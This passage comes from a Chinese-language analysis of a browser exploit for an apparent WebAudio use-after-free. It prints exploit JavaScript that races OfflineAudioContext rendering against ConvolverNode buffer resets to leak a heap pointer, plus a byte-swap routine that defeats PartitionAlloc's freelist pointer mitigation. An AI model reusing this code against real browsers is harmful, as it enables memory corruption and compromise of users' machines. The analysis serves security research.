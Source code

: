 ```
                         let superPageBase = getSuperPageBase(leakedAddr);

                         if (superPageBase &gt; BigInt(0xFFFFFFFF) &amp;&amp; superPageBase &lt; BigInt(0xFFFFFFFFFFFF)) `{`
                            finished = true;
                            evt = null;

                            bufferSource.disconnect();
                            scriptNode.disconnect();
                            convolver.disconnect();

                            setTimeout(function() `{`
                                 doneCb(leakedAddr);
                            `}`, 1);

                            return;
                        `}`
                `}`
            `}`
    `}`;

    audioCtx.startRendering().then(function(buffer) `{`
            buffer = null;

            if (!finished) `{`
                 finished = true;
                 triggerUaF(doneCb);
            `}`
    `}`);

    while (!finished) `{`
            convolver.buffer = null;
            convolver.buffer = channelBuffer;
            await later(100); // 等待100毫秒
    `}`
`}`;
```

这个函数是递归执行的。它用0填充声道缓冲区，开始离线渲染，同时执行循环以使ConvolverNode对象的声道缓冲区置为null并重置，并试图触发bug。利用代码通过later()函数模拟Sleep函数，挂起当前线程，使Render和Audio线程按时完成执行：

```
function later(delay) `{`
    return new Promise(resolve =&gt; setTimeout(resolve, delay));
`}`
```

执行期间，利用代码会检查声道缓冲区是否包含与之前设置的0不同的数据，如果有这样的数据就说明成功触发了UAF，且目前声道缓冲区里应该包含一个泄露的指针。

PartitionAlloc内存分配器有一种特殊的漏洞利用缓解措施，其工作原理如下：释放内存区域时，它将字节交换（byteswaps）指针的地址，然后将字节交换后的地址添加到FreeList结构中。这会增加漏洞利用的难度，因为尝试解引用此类指针将导致进程崩溃。为了绕过该技术，利用代码使用了以下原语，将指针交换回来：

```
function byteSwapBigInt(x) `{`
    let result = BigInt(0);
    let tmp = x;

    for (let i = 0; i &lt; 8; i++) `{`
            result = result &lt;&lt; BigInt(8);
            result += tmp &amp; BigInt(0xFF);
            tmp = tmp &gt;&gt; BigInt(8);
    `}`

    return result;
`}`
```